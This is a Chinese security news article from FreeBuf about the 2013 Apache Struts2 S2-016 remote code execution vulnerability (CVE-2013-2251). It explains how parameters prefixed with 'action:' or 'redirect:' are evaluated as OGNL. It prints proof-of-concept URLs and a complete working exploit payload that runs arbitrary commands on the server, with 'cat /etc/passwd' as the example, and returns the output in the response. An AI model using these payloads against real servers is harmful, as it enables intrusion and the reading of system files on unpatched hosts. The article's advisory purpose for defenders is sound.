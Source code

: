 [登陆](http://www.freebuf.com/wp-login.php?redirect_to=http://www.freebuf.com "登陆")[注册](http://www.freebuf.com/wp-login.php?action=register)

[![freebuf]()](http://www.freebuf.com/)

[新浪微博](http://www.weibo.com/freebuf "收听新浪微博") [腾讯微博](http://t.qq.com/freebuf "收听腾讯微博")[订阅我们](http://www.freebuf.com/feed "订阅我们")

### [更新]Struts2再爆远程代码执行漏洞（S2-016）

[phper]() @ [漏洞](http://www.freebuf.com/category/vuls "查看 漏洞 中的全部文章") 2013-07-17 共 **28624** 人围观 

**Struts又爆远程代码执行漏洞了！****在这次的漏洞中，攻击者可以通过操纵参数远程执行恶意代码。****Struts 2.3.15.1之前的版本，参数action的值redirect以及redirectAction没有正确过滤，导致ognl代码执行。 **

**描述**
影响版本 Struts 2.0.0 - Struts 2.3.15 报告者 Takeshi Terada of Mitsui Bussan Secure Directions, Inc. CVE编号 CVE-2013-2251

**漏洞证明**

参数会以OGNL表达式执行
http://host/struts2-blank/example/X.action?action:%25{3*4} http://host/struts2-showcase/employee/save.action?redirect:%25{3*4}

代码执行

http://host/struts2-blank/example/X.action?action:%25{(new+java.lang.ProcessBuilder(new+java.lang.String[]{'command','goes','here'})).start()} http://host/struts2-showcase/employee/save.action?redirect:%25{(new+java.lang.ProcessBuilder(new+java.lang.String[]{'command','goes','here'})).start()} http://host/struts2-showcase/employee/save.action?redirectAction:%25{(new+java.lang.ProcessBuilder(new+java.lang.String[]{'command','goes','here'})).start()}

**漏洞原理**

The Struts 2 DefaultActionMapper supports a method for short-circuit navigation state changes by prefixing parameters with “action:” or “redirect:”, followed by a desired navigational target expression. This mechanism was intended to help with attaching navigational information to buttons within forms.

In Struts 2 before 2.3.15.1 the information following “action:”, “redirect:” or “redirectAction:” is not properly sanitized. Since said information will be evaluated as OGNL expression against the value stack, this introduces the possibility to inject server side code.

[Apache官方地址](http://struts.apache.org/release/2.3.x/docs/s2-016.html)

**国内网站受灾严重**

**![](http://static.freebuf.com/uploads/image/20130719/20130719234053_37320.jpg)
**

**以下仅供教学研究之用，严禁非法用途！**

执行任意命令EXP，感谢X提供：
?redirect:${%23a%3d(new java.lang.ProcessBuilder(new java.lang.String[]{'cat','/etc/passwd'})).start(),%23b%3d%23a.getInputStream(),%23c%3dnew java.io.InputStreamReader(%23b),%23d%3dnew java.io.BufferedReader(%23c),%23e%3dnew char[50000],%23d.read(%23e),%23matt%3d%23context.get('com.opensymphony.xwork2.dispatcher.HttpServletResponse'),%23matt.getWriter().println(%23e),%23matt.getWriter().flush(),%23matt.getWriter().close()}
